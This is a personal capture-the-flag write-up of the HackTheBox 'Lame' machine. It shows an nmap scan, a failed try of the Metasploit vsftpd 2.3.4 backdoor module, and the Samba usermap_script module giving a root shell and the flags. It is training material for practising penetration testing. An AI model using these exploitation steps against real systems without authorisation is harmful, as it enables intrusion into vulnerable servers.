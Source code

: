 # Title: Lame
  Date: 2019-10-11

This box is rated very easy, probably the easiest there is. I've played with HTB a bit but never really focused much on it. I'm planning to work through the boxes starting with the easiest. I've done a few but have always been _very_ bad at documenting things. So this is my first actual writeup. 

## Enumeration

Kicked off with a quick port scan with service detection, which returned the following:

```
$ sudo nmap -sV -sS -T4 lame 
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-11 14:33 CDT
Nmap scan report for lame (10.10.10.3)
Host is up (0.094s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP Red Herring? Or bad hacker?

The first thing I did was check out the ftp server. I was able to log in anonymously and noticed the server was vsFTPd v2.3.4. I recognized this as a pretty cool possible vulnerability and think I may have actually used it for a CTF challenge I built a few years back. Here is the background:

> This module exploits a malicious backdoor that was added to the VSFTPD download archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 according to the most recent information available. This backdoor was removed on July 3rd 2011. 

I then kicked off Metasploit (msfconsole) and searched for vsftpd:

```
msf5 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

Selected the exploit:

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
```

Looked at the options:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)
```

Set the RHOSTS to the lame IP (I added an entry to my hosts file to make life easier):

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts lame
rhosts => lame
```
And then kicked off the exploit:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

The exploit didn't work out of the box so I moved on thinking maybe this was a trick and the vulnerable version of the server was not installed on the box. Since this box is rated super easy I figured it wouldn't take that much work.

## Samba

I moved on to the Samba shares. I first used the __Impacket__ (https://github.com/SecureAuthCorp/impacket) smbclient.py script to try connecting:

```
smbclient.py lame
```

I found some shares but nothing really very interesting on them. I also ran "enum4linux" on the box but didn't really make it to going through the results because while it was running I moved on to just doing a bit of research and just did a search on "exploit open smb share". I came across this site: 
https://resources.infosecinstitute.com/hacking-and-gaining-access-to-linux-by-exploiting-samba-service/#gref 

I ran through the Metasploit enumeration and was kinda shocked when a shell just popped. 

I ran through the following:

```
use auxiliary/scanner/smb/smb_version
...set up options and executed...
```

and then:

```
use exploit/multi/samba/usermap_script
...set up options and executed...
```

To my surprise running this popped a shell?! I was kind of blindly following the site and didn't realize it would actually work.

## User flag

Once I got the shell I found the user flag under /home/makis

## Root flag

I ran "whoami" and was surprised that I'd popped a root shell. The root flag was surprisingly in the /root folder.

## Endnotes

I'm curious to go take a look at other writeups for this one. I have a feeling there are several paths to take.

Here are the details on the Samba exploit that surprised me:

> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! 